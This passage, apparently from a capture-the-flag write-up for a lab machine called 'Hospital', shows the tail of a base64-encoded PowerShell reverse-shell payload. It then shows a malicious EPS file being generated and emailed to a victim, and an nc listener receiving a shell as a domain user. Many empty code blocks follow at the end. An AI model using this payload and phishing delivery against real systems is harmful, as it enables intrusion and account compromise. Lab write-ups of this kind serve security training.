UwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA="
[+] Generated EPS payload file: file01.eps
```

Reply back on the email attaching the malicious `.eps` file.


A minute later we get a shell on our listener.

```bash
$ rlwrap -cAr nc -nlvp 9002
listening on [any] 9002 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.241] 27896

PS C:\Users\drbrown.HOSPITAL\Documents> whoami
hospital\drbrown
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```
